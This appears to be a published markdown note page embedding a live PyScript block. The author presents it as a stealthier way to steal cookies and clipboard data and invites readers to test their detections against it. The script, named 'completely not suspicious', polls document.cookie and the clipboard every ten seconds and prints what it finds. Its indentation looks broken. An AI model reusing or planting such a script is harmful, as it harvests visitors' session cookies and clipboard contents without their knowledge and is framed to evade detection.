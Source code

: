 ```yaml
---
publish: true
title: pyscript-test
---
```

# What is this?
Well, I wanted to embed something else, but instead, how about I just show you what pyscript can do and see if your detections catch it! :D
## what?
So pyscript is really pretty neat, but it seems like it's just pythonic commands for javascript and not really a python runtime, so that brings limitations. Even so, pretty fun because it's super easy to make less detectable ways of stealing cookies and clipboard data.

<div id="c"></div>
<script type="module" src="https://pyscript.net/releases/2025.2.1/core.js"></script>
<script type="py" config='{"name": "completely not suspicious", "packages": ["asyncio"]}'>
import asyncio, js, pyscript, base64, urllib
from pyodide.ffi import create_proxy
import warnings
warnings.filterwarnings("ignore")

from js import XMLHttpRequest
from io import StringIO
from pyscript import document

async def get_clipboard_data():
        try:
            all_cookies = document.cookie
            text_data = await js.navigator.clipboard.readText()
	        pyscript.display("Cookies: "+str(all_cookies))
	        pyscript.display("ClipBoard: "+ str(text_data))
        except:
            pass

pyscript.document.querySelector("#c").focus()
get_clipboard_data_proxy = create_proxy(get_clipboard_data)
pyscript.display("Data Found by clicking this page:")
async def main():
    while True:
        try:
            asyncio.ensure_future(get_clipboard_data_proxy())
            await asyncio.sleep(10)
        except:
            pass

main()
</script>
